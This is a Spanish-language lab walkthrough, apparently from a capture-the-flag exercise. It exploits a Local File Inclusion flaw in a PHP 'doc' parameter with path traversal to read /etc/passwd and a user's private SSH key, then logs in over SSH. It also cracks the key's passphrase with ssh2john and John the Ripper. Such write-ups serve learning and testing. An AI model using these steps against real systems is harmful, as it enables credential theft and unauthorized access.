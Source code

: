 Es de gran importancia siempre hacer revisión de los códigos fuentes de las páginas con tal de revisar si existe o no algún mensaje importante. En este caso, nos encontrábamos un comentario indicando una dirección de un archivo:

![[1. LOCAL FILE INCLUSION.png]]

Ver una URL con esta estructura es un indicio de que quizás podamos hacer Local File Inclusion ya que hace la llamada de un "doc". 

Para hacer el ataque consiste en cambiar el contenido posterior al = para navegar entre los directorios.

Como primera prueba si podemos o no hacer este tipo de ataque tendríamos que modificar de la siguiente forma el dominio.

````
192.168.0.23/tools/check_if_exist.php?doc=../../../../../../../../../etc/passwd
`````

Mediante esto entraremos al archivo `passwd` y comprobaremos si funciona o no. Dentro de este archivo siempre que veamos un usuario precedido de un directorio "/home/" significará que existe.

Teniendo este usuario podemos acceder al siguiente directorio:

````
192.168.0.23/tools/check_if_exist.php?doc=../../../../../../../../../home/gh0st/.ssh/id_rsa
`````

Este archivo vendrá encriptado, mediante "ctrl + U" podremos conseguir una vista mas limpia.

Copiaremos todo el texto y lo pegaremos en nuestro escritorio con el mismo nombre de archivo. Tendremos que darle unos permisos concretos al archivo para eso usaremos el comando: 

````
chmod 600 id_rsa
`````

Con este archivo podremos acceder de forma SSH a la máquina sin uso de contraseña siempre y cuando sepamos el usuario.

Se haría con el siguiente comando 

````
ssh -i id_rsa gh0st@192.169.0.23
`````

Nos pedirá un salvoconducto para el uso del archivo.

Mediante la herramienta JohnTheRipper podremos crackear el archivo con los siguientes comandos:

- Preparamos el hash del archivo.
````
ssh2john id_rsa > hash
`````

- Crackear el hash del archivo:
````
john --wordlist=/usr/share/wordlist/rockyou.txt hash
`````

Esto nos devolverá el salvoconducto necesario para poder hacer uso del archivo para la conexión.






